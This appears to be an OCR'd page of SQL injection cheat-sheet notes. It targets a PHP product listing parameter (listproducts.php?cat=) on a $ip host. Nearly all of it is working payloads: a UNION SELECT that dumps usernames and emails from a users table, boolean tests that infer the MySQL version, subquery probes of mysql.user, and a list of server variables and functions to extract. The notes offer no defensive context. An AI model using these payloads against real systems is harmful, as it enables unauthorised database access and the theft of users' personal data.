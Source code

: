 ````
http://$ip/listproducts.php?cat=1 union select all 1,2,3,4,5,6,group_concat(uname,0x10a,email),8,9,10,11 FROM users
````
### Confirm MYSQL version - If Returns true then end value is true
````
http://$ip/listproducts.php?cat=1 and substring(@@version,1,1)=4
http://$ip/listproducts.php?cat=1 and substring(@@version,1,1)=5 
````
- Test if subset works - If returns True then subset works
````
http://$ip/listproducts.php?cat=1 and (select 1)=1
````
- Test if subset works, test for mysql.user - If returns True then subset works
````
http://$ip/listproducts.php?cat=1 and (select 1 from mysql.user limit 0,1)=1
````
#### Injection
````
@@hostname                             
@@tmpdir
@@datadir
@@basedir
@@log
@@log_bin                                                                
@@log_error                                                          
@@binlog_format                       
@@time_format                                                    
@@date_format                                                    
@@ft_boolean_syntax                                           
@@innodb_log_group_home_dir                                            
@@new                                                                  
@@version                                                              
@@version_comment
@@version_compile_os
@@version_compile_machine
@@GLOBAL.have_symlink
@@GLOBAL.have_ssl
@@GLOBAL.VERSION

version()                                                            
table_name()                                                           
user()                                                                 
system_user()                                                          
session_user()
database()                                                             
column_name()                                                          
collation(user())                                                      
collation(\N)                                                          
schema()
UUID()
current_user()
current_user


dayname(from_days(401))                                                
dayname(from_days(402))                                                
dayname(from_days(403))                                                
dayname(from_days(404))                                                
dayname(from_days(405))                                                
dayname(from_days(406))                                                
dayname(from_days(407))                                                

````